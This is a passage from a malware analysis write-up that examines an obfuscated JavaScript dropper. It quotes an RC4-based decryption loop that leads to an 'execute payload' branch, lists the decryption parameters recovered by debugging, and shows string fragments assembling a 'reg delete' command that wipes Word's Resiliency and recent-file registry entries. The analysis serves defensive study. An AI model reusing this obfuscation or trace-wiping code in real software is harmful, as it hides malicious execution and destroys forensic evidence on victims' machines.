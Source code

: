 ```js
  checksum = rc4_gen_xor(base_rc4_array, tabex, lim + index);
    if (check(checksum, seq) === true) {jump = 670;} // if the sequence is correct -> jump
    i = i + 1;
  } while (jump === 0);
  seq = 0;
  base_rc4_array = 0;
  i = 0;
  offset_tab = lim + index;
  if (jump === 670) { // execute payload
```

###### By debugging, we can get the parameters used for decrypt the obfuscated data.

<center>
<table>
<tr>
<td><center>Variable</center></td>
<td><center>Value</center></td>
</tr>
<tr>
<td><center>tabex</center></td>
<td>120,98,74,83,111,102,97,82,110,121,84,105,69,76,53,57,55</td>
</tr>
<tr>
<td><center>index</center></td>
<td><center>14</center></td>
</tr>
<tr>
<td><center>lim</center></td>
<td><center>3</center></td>
</tr>
<tr>
<td><center>i</center></td>
<td><center>598</center></td>
</tr>
<tr>
<td><center>offset_tab</center></td>
<td><center>17</center></td>
</tr>
</table>
</center>

###### The main differences with the last analysis are on the main function, we can already observe that use this time non-instantiated variables instead of variables used on the first layer on the previous analysis.

```js
 // Variables used as breakpoint
    ygahzfm0731 = "reg delete ";
    ygahzfm64 = "HKCU\\Software\\Microsoft\\Office\\";
    ygahzfm354 = ".0\\Word\\";
    ygahzfm6906 = "Resiliency /f";
    ygahzfm619 = "File MRU\\Item 1";

// Push breakpoint after used
    ygahzfm64 = 0;
    ygahzfm354 = 0;
    ygahzfm6906 = 0;
    ygahzfm619 = 0;
    ygahzfm0731 = 0;

try 
{
```